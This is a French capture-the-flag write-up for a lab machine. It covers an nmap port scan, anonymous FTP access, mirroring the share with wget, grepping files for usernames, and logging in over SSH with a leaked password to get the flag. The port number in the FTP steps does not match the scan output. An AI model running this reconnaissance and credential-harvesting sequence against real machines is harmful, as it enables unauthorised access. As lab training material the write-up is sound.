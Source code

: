 # WRITE-UP BEVERAGE BAZAAR

## Ports ouverts

On scanne la machine pour rechercher des ports ouverts :

```bash
nmap -F 192.168.1.1
---
PORT   STATE SERVICE
2100/tcp open  ftp
22/tcp open  ssh
```

Le port SSH nous demande un mot de passe, sachant que ce service est compliqué à bruteforcer (avec les timeout) on se concentre sur le serveur FTP.

## Serveur FTP

On n'a aucun identifiant pour se connecter sur la machine.
On essaye donc de se connecter en utilisateur anonyme sur le serveur FTP :

```bash
ftp 192.168.1.1
Connected to 192.168.1.1.
220 Welcome to PopaCola file server.
Name (192.168.1.1:username): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

BINGO, on est connecté, plus qu'à trouver les fichiers d'intérêt dans le vault Obsidian !

## Chasse aux identifiants

```bash
wget -m ftp://anonymous:null@192.168.1.1:21 -P output_folder
```

Plusieurs fichiers ont l'air intéressant, notamment ceux concernant les utilisateurs.
Cependant, on s'aperçoit vite que les mots de passe donnés ne fonctionnent pas, on peut donc chercher à rechercher les différents nom d'utilisateur dans les fichiers :

```bash
grep -ERi "\smarc|\salicia|\ssophie" output_folder
```

Dans le fichier `Meeting_Notes_March.md` on apprend que le mot de passe de Marc a été changé.

On essaye de se connecter en SSH sur la machine avec `<username>:<password>` et on a notre flag !

> Note: Sans l'option `-m` sur `wget`, on n'aurait pas copié l'arborescence complète et on serait passé à côté du fichier intéressant.
